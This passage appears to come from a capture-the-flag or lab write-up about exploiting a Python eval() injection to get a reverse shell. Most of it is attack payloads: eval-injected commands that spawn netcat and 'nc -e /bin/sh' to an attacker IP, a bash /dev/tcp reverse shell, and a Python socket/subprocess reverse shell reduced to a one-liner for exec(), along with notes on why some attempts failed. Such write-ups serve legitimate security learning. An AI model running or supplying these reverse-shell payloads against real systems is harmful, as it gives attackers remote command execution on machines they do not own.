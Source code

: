 payload = &#8220;\_\_import\_\_(&#8216;os&#8217;).system(&#8216;nc 10.10.14.61 5555 &&#8217;)&#8221;  
payload = &#8220;\_\_import\_\_(&#8216;os&#8217;).popen(&#8216;nc -e /bin/sh 10.10.14.61 5555 &&#8217;)&#8221;  
payload = &#8220;\_\_import\_\_(&#8216;os&#8217;).run(&#8216;nc 10.10.14.61 5555 &&#8217;)&#8221;  
payload = &#8220;\_\_import\_\_(&#8216;subprocess&#8217;).Popen(&#8216;nc 10.10.14.16 5555&#8217;,shell=True)&#8221;

Actually, that last one did connect back to my listener, but immediately closed no matter how I tried to issue the command. I read somewhere that it could have been due to netcat reading input from the python script and getting an EOF instead. So I tried setting it up with input and output file descriptors like this:

payload = &#8220;\_\_import\_\_(&#8216;subprocess&#8217;).Popen(&#8216;nc 10.10.14.16 5555 &&#8217;,shell=True,stdin=subprocess.PIPE,stdout=subprocess.PIPE,stderr=subprocess.PIPE)&#8221;

Not really sure what was causing netcat to fail, but it did.

### Attempt 2, Bash Proc TCP Redirects:

Bash has a shortcut to use network connections through the Proc system, and it&#8217;s pretty useful for reverse shellcode like this. Unfortunately, it didn&#8217;t work this time, mostly because the system doesn&#8217;t have Bash installed! Of course, I didn&#8217;t know that at the time.

To make it with when Bash is installed, however, you send IO redirects to /proc/tcp/\*ip\_addr\_of_target\*/\*port\*. This is what the command should have looked like:

payload = &#8220;\_\_import\_\_(&#8216;subprocess&#8217;).Popen(&#8216;bash -i >& /dev/tcp/10.10.14.16/5555 0>&1&#8217;,shell=True)&#8221;

### Attempt 3, Python Netcat Replacement:

This shellcode is all about python. Using socket and subprocess libraries to create a network connection and pipe it into a shell, basically the functionality of Netcat.

I followed the advice I found in [this article](https://pen-testing.sans.org/blog/2017/01/31/pen-test-poster-white-board-python-python-reverse-shell/) about condensing python shellcode into a one-liner. Start out with the following python code:

<pre class="lang:python decode:true">import socket
import subprocess
s=socket.socket()
s.connect(("127.0.0.1",5555))
while True:
     proc = subprocess.Popen(s.recv(1024),  shell=True,stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     s.send(proc.stdout.read() + proc.stderr.read())</pre>

That is the Netcat replacement you need. After reading the article linked above, you&#8217;ll end up with a line like this:

<pre class="lang:python decode:true">import socket, subprocess;s = socket.socket();s.connect(('127.0.0.1',5555))\nwhile 1: proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE); s.send(proc.stdout.read()+proc.stderr.read())</pre>

The reason the shellcode is put into an exec() call instead of just sent to the vulnerable function, is that eval() is limited to only using expressions and we need to send the &#8216;import&#8217; statement. Exec() can handle statements like &#8216;import&#8217; and multiple lines, while the eval() only sees the exec() expression with a string inside of it.
